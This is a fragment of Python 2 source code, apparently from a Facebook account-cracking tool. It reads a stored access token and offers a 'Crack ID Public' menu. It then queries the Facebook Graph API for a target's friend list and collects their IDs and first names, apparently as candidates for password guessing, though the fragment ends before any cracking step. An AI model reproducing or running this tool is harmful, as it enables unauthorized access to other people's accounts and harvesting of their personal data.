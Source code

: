 def cramen():
	global token
	os.system("clear")
	try:
		token=open(".logfuck.txt","r").read()
	except IOError:
		print("[!] Token Error. Token Not Working")
		os.system("rm -rf .logfuck.txt")
		time.sleep(1)
		logmen()
	os.system("clear")
	print logo
	print "[1] Crack ID Public"
	print '[\x1b[91m0\x1b[0m] Back'
	crapil()
	
def crapil():
	select = raw_input("\nSelect: ")
	id=[]
	oks=[]
	cps=[]
	if select=="10000":
		os.system("clear")
		print logo
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="1":
		os.system("clear")
		print logo
		idt = raw_input("[+] Target ID : ")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Name : "+q["name"])
		except KeyError:
			print('\n[!] Fb ID . ID : '+idt+' Friends Not Public')
			raw_input("\nBack ")
			cramen()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	   